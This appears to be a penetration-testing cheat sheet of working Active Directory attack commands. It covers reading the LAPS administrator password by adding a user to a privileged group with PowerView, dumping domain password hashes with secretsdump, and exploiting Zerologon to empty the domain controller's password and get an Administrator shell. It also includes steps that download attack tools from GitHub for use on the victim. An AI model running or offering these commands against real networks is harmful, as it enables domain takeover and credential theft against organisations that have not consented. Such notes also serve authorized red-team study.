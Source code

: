 # LAPS admin password
- Need an account that can write to the target group, ie WriteOwner
- Add a user to a group that has ReadLAPSPassword permission
- Read the Administrator’s LAPS password
```
# Collect AD forest info using bloodhound, locate the user and the target group
> bloodhound-python -c All -u <user> -p <pass> -dc <dc> -d <domain> -ns <ns>

# Connect via a user on the target
> evil-winrm -i <domain> -u <user> -p <password>
```

- On Windows target
```
# Upload and import module to the victim machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
upload PowerView.ps1
Import-Module .\PowerView.ps1

# Use the users that is an account operator to achieve the "adding user to group" operation
$SecPassword = ConvertTo-SecureString '<pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "<group>" -principalidentity "<domain>\<user>"
Add-DomainGroupMember -identity "<group>" -members "<domain>\<user>" -credential $Cred
```

- On kali
```
# lapsdumper
> lapsdumper -u <user> -p <pass> -d <domain> -l <dc-ip>
# or
# https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/
# https://chowdera.com/2022/04/202204042238391625.html
> wget https://raw.githubusercontent.com/n00py/LAPSDumper/main/laps.py
> python3 laps.py -u <user> -p <pass> -d <domain>

# With the password that results connect with evil-winrm as administrator
> evil-winrm -i <domain> -u Administrator -p '<dc:pass>'
```

# secretdump
- DA privilege needed to dump the secrets
- Retrieve all of the password hashes (if synced with the domain controller)
```
> secretsdump.py
```

# Zerologon
```
# Setup
> git clone https://github.com/risksense/zerologon.git

# Exploit
> python3 set_empty_pw.py <DC_NETBIOS_NAME> <DC_IP_ADDR>
> secretsdump.py -hashes :<ntlm> '<DOMAIN>/<DC_NETBIOS_NAME>@<dc_ip_addr>'
> wmiexec.py <domain>/Administrator@<ip> -hashes <hashes>
```
